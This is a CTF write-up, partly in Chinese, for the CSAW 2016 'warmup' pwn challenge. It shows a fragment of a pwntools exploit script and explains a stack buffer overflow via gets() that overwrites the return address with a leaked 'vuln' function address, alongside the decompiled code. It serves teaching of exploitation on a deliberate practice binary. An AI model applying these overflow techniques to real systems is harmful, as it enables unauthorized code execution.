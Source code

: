 ```python


def main():
    target = launch()
    payload = construct_payload()

    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```

# warmup_csaw_2016

## Information

- Category: Pwn
- Points: 1

## Write-up

`int sprintf(char* buffer, const char* format, ...);` 函数将格式化后的数据写入缓冲区，返回值是写入的字符数，不包括末尾的空字符 `\0`。`snprintf` 加入了缓冲区大小检查以及自动截断，比 `sprintf` 更安全，虽然本题没考这个函数的安全性问题。

这里 `vuln` 的地址将被写入 buffer `s`，然后 `write` 负责将 buffer `s` 中前九个字节，也就是 `vuln` 的地址输出到标准输出。

`main` 返回的是 `gets`，我们通过这个 `gets` 覆盖返回地址，修改为白送的 `vuln` 的地址即可。

```c del={11}
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  _BYTE v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", vuln);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```

```c
int vuln()
{
  return system("cat flag.txt");
}
```
